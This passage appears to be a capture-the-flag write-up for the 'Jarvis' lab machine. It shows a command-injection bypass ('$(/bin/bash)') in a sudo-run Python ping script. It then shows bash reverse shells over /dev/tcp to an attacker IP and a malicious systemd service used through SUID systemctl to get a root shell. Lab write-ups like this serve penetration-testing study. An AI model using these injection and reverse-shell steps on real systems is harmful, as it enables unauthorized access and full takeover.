www-data@jarvis:/var/www$ ls -la
ls -la
total 16
drwxr-xr-x  4 root   root   4096 Mar  4  2019 .
drwxr-xr-x 12 root   root   4096 Mar  2  2019 ..
drwxr-xr-x  2 pepper pepper 4096 Mar  4  2019 Admin-Utilities
drwxrwxrwx  9 root   root   4096 Nov 14 09:07 html
www-data@jarvis:/var/www$ cd Admin-Utilities
cd Admin-Utilities
www-data@jarvis:/var/www/Admin-Utilities$ ls -la
ls -la
total 16
drwxr-xr-x 2 pepper pepper 4096 Mar  4  2019 .
drwxr-xr-x 4 root   root   4096 Mar  4  2019 ..
-rwxr--r-- 1 pepper pepper 4587 Mar  4  2019 simpler.py
www-data@jarvis:/var/www/Admin-Utilities$ sudo -l
sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
www-data@jarvis:/var/www/Admin-Utilities$ 
```

There is a python script owned by the user "pepper", which the "www-data" user can run using sudo.

```
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py
< sudo -u pepper /var/www/Admin-Utilities/simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
www-data@jarvis:/var/www/Admin-Utilities$ 
```

Here is the code for the script:

```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()
	
    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1
	
    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)
	
def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req
			
def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]
	
def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req
	
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

Reviewing the code in the script, we find the vulnerable function "exec\_ping", which prompts for an IP address, then checks for forbidden characters, before passing it to the ping command as a parameter. Since we control the "command" parameter, we should be able to use command substituion here, since we cannot use any of the forbidden symbols.&#x20;

For more information on command substitution check out the following links:





After some trial and error, we managed to get a shell as user "pepper" using the following commands:

```
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(/bin/bash) 
127.0.0.1 $(/bin/bash)
pepper@jarvis:/var/www/html$ id
id
pepper@jarvis:/var/www/html$ whoami
whoami
pepper@jarvis:/var/www/html$ pwd
pwd
pepper@jarvis:/var/www/html$ 

```

Using command substitution, we are able to get a shell as the user "pepper", however, the shell does not print the output of commands to stdout. To get around this, we can use the shell to get a new reverse shell as "pepper". First, start another netcat listener, then run the following command:

```
// pepper@jarvis:/var/www/html$ /bin/bash -i >& /dev/tcp/10.10.14.7/8080 0>&1
/bin/bash -i >& /dev/tcp/10.10.14.7/8080 0>&1

```

In the new listener, we get a shell as "pepper", and we can grab the user flag:

```
└─$ nc -nvlp 8080
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:44922.
pepper@jarvis:/var/www/html$ id
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:/var/www/html$ cd ~
cd ~
pepper@jarvis:~$ cat user.txt
cat user.txt
2afa36c4f05b37b34259c93551f5c44f
pepper@jarvis:~$ 
```

## Enumeration as "pepper"

Let's check if there are any SUID binaries:

```
pepper@jarvis:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:/$ 

```

The one that stands out is "systemctl". Let's check out GTFObins:



In order to get a root shell, we need to do the following:

* Create the new service using a service file (service unit)
* Start a new listener
* Enable the new service and then start it using systemctl&#x20;

For more information on creating a new service see the following page:



## Privilege Escalation

Let's create the new service:

```
pepper@jarvis:/var/www/html$ cat > /dev/shm/av.service << EOF
cat > /dev/shm/av.service << EOF
> [Service]
[Service]
> User=root
User=root
> ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/80 0>&1'
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/80 0>&1'
> [Install]
[Install]
> WantedBy=multi-user.target
WantedBy=multi-user.target
> EOF
EOF
pepper@jarvis:/var/www/html$ cat /dev/shm/av.service
cat /dev/shm/av.service
[Service]
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/80 0>&1'
[Install]
WantedBy=multi-user.target
pepper@jarvis:/var/www/html$ 

```

Start a new netcat listener.

```
└─$ sudo nc -nvlp 80                                 
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80

```

Finally, enable the service which creates the required symlinks in the service directories, and then start it:

```
pepper@jarvis:/var/www/html$ systemctl enable /dev/shm/av.service
systemctl enable /dev/shm/av.service
Created symlink /etc/systemd/system/multi-user.target.wants/av.service -> /dev/shm/av.service.
Created symlink /etc/systemd/system/av.service -> /dev/shm/av.service.
pepper@jarvis:/var/www/html$ systemctl start av.service
systemctl start av.service
pepper@jarvis:/var/www/html$ 
```

In the netcat listener, we get a shell as root, and we can grab the root flag.

```
└─$ sudo nc -nvlp 80
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:56320.
bash: cannot set terminal process group (1623): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@jarvis:/# cat /root/root.txt
cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
root@jarvis:/# ​ ​ ​ ​ ​
```

## Resources

.JPG>)



​ ​ ​
